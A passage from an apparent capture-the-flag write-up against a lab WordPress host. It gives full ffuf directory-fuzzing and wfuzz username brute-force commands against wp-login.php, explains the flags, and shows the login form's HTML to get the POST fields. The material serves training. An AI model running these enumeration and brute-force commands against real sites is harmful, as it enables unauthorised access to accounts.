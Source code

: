 ```zsh
 ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -u http://10.10.22.96/FUZZ -of all -o dirs80.html     -e .txt,.php,.html -c 
```
So robots.txt is showing up now.

## WP-login
In the results of ffuf we find the `/wp-login.php` file. We know that this is a wordpress site which was not found by whatweb.
To login to the page we need both a username and a password. I did look in the information of the page running different command but I did not found a name.
So let's switch to the `fsocity.dic` to check if there is a valid username.

I'm using the tool `wfuzz` for this. You could also use `hydra` with the `http-form-post`. But I just find the `wfuzz` syntax a bit better:
```zsh
wfuzz -c -w ~/Downloads/fsocity.dic --hs Invalid -d "log=FUZZ&pwd=password&wp-submit=Log In"" -u http://10.10.22.96/wp-login.php
```
What does this mean:
--c: simply output with colors
--w the wordlist we are using
---hs We hide all responses with this regex
--d is the post data
--u is the url we are requesting

How do we get the right data parameters? On the `/wp-login.php` page we can just simply right click in the page and view the page source.
We will look for the names of the username and password entry field and the submit button.

```html


<form name="loginform" id="loginform" action="http://10.10.22.96/wp-login.php" method="post">
	<p>
		<label for="user_login">Username<br/>
		<input type="text" name="log" id="user_login" aria-describedby="login_error" class="input" value="Elliot" size="20"/></label>
	</p>
	<p>
		<label for="user_pass">Password<br/>
		<input type="password" name="pwd" id="user_pass" aria-describedby="login_error" class="input" value="" size="20"/></label>
	</p>
		<p class="forgetmenot"><label for="rememberme"><input name="rememberme" type="checkbox" id="rememberme" value="forever"/> Remember Me</label></p>
	<p class="submit">
		<input type="submit" name="wp-submit" id="wp-submit" class="button button-primary button-large" value="Log In"/>
		<input type="hidden" name="redirect_to" value="http://10.10.22.96/wp-admin/"/>
		<input type="hidden" name="testcookie" value="1"/>
	</p>
</form>
```
